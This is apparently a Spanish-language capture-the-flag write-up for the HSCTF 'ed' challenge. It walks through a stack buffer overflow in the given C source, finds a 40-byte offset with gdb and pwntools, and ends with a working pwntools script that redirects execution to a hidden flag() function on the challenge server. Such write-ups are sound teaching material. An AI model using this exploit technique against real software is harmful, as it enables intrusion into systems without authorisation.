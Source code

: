 # Enunciado
![Imagen01](01.png)

# Resolución

Nos proporcionan el siguiente código:
~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int flag() {
	puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
	char input[24]; 
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}

~~~

En el cual tenemos la fúnción int flag() que imprime la flag pero que nunca es llamada en el código, por lo que podemos tratar de obtener la dirección en la que se encuentra dicha función y modificar de alguna forma el flujo de programa para que se ejecute.

Primero, ejecutamos gdb-gef con el binario 'ed':

![](05.png)

y buscamos la dirección de memoria de la función *flag()*. Lo hacemos con el comando ´print &flag´

![](07.png)

Obtenemos la dirección **0x4011d2**

Ahora debemos de comprobar si el código ejecutable ha sido compilado sin alguna de las protecciones que impiden el desbordamiento de buffer. Lo hacemos con checksec:

![](02.png)

Vemos que no tiene la protección *Stack Canary* ni *PIE* por lo que en principio parece vulnerable a desbordamientos de pila.

> Un **stack canary** es un valor de seguridad colocado en la pila justo antes de la dirección de retorno en una función. Este valor se elige de forma aleatoria al inicio de la ejecución del programa y se verifica al finalizar la función antes de que se produzca el retorno. Si el valor del canary se ha modificado, se asume que ha ocurrido un desbordamiento de búfer y el programa puede tomar medidas para prevenir un posible ataque como terminar abruptamente la ejecución, generar una excepción o informar del intento de ataque.

> Las **protecciones PIE** (Position Independent Executable) son técnicas de seguridad que hacen que el código y los datos de un programa se carguen en posiciones de memoria aleatorias cada vez que se ejecuta. Esto dificulta a los atacantes explotar vulnerabilidades de memoria, ya que no conocen de antemano la ubicación exacta de las estructuras de datos y funciones en el programa. Las protecciones PIE fortalecen la seguridad al hacer más difícil para los atacantes predecir y abusar de la memoria, lo que reduce la probabilidad de ataques de ejecución de código malicioso y otros tipos de ataques basados en la ubicación precisa de los elementos en memoria.

Para conseguir el desbordamiento debemos de encontrar alguna forma de introducción de datos que permita que el programa se 'desborde'. Un desbordamiento generalmente se produce cuando un programa escribe más datos en un búfer de los que puede contener. 

En el código suministrador tenemos dos líneas que posibilitan un buffer overflow debido a la discrepancia en los tamaños de los búferes y la forma en que se maneja la entrada del usuario.

1. `char input[24];`: Aquí, se declara un array de caracteres `input` con un tamaño fijo de 24 bytes.

2. `fgets(input, 64, stdin);`: En esta línea, se utiliza la función `fgets` para leer hasta 64 caracteres de la entrada estándar (`stdin`) y almacenarlos en el búfer `input`. Sin embargo, como se definió que `input` solo tiene espacio para 24 bytes, si el usuario ingresa más de 23 caracteres (más el carácter nulo de terminación), esto resultará en un buffer overflow. Esto es porque `fgets` tratará de escribir más datos en `input` de los que puede contener de manera segura.


Ejecutándolo en local vemos que efectivamente al introducir una cadena larga y luego pulsar 'Q', obtenemos el desbordamiento de buffer que estamos buscando:

![](03.png)

Vamos a utilizar el comando 'cyclic' de 'pwntools' para generar una cadena con un patrón conocido, luego la editaremos para añadir una 'Q' en la siguiente línea, es decir, replicamos en un fichero de texto la entrada con la que hemos conseguido el buffer overflow pero con un patrón de texto conocido que después podemos ubicar en memoria al ejecutarlo con una herramienta como 'gdb'

![](04.png)

Para ejecutar el programa desde dentro de gdb con el fichero de texto generado, debemos de utilizar el comando ´r< cadena.txt´, obteniendo la siguiente salida:

![](06.png)

En este caso nos interesa poder sobreescribir el stack pointer (registro **rsp**) que apunta a la cima de pila para ubicar en él la dirección de la función flag().

Para ello podemos usar la herramienta cyclic de nuevo para determinar exactamente en qué parte de la cadena de caracteres se encuentra "kaaalaaamaaanaaaoaaapaa" que es la parte que sobrescribió el stack pointer. Sabiendo la posición de dicha cadena en la cadena original tendremos el offset en el que necesitamos escribir la dirección 0x4011d2, que es la de la función flag().

![](08.png)

Obtenemos un offset de 40.

Con todos estos datos, generamos un pequeño programa en python utilizando la librería *pwntools*

~~~
from pwn import *

conexion = remote("ed.hsctf.com", 1337)
offset = 40
direccion_funcion_flag = p64(0x4011d2)
conexion.sendline(b'a'*offset + direccion_funcion_flag)
conexion.recv()
conexion.sendline(b'Q')
print(conexion.recv())
~~~

Lo ejecutamos y conseguimos la bandera:

![](10.png)


 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 

- [URL original del reto](https://ctf.hsctf.com/challs). *Disclaimer:Probablemente offline después de finalizar la competición* 
 
